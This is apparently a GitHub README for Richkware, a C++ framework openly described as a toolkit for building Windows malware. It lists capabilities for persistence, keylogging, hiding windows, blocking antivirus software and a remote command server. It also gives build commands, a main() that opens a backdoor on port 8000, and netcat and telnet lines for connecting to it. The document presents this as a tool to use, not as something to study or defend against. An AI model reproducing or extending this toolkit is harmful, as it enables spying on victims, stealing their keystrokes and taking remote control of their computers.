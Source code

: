 # Richkware
Framework for building Windows malwares, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using MinGW cross compiler for Windows

	g++ -O3 -c -o crypto.o crypto.cpp
	
	g++ -O3 -c -o thread.o thread.cpp

	g++ -O3 -c -o richkware.o richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o thread.o main.o -lws2_32 

###Using MinGW cross compiler for Linux build environment

	x86_64-w64-mingw32-g++ -O3 -c -o crypto.o crypto.cpp
	
	x86_64-w64-mingw32-g++ -O3 -c -o thread.o thread.cpp

	x86_64-w64-mingw32-g++ -O3 -c -o richkware.o richkware.cpp

	x86_64-w64-mingw32-g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000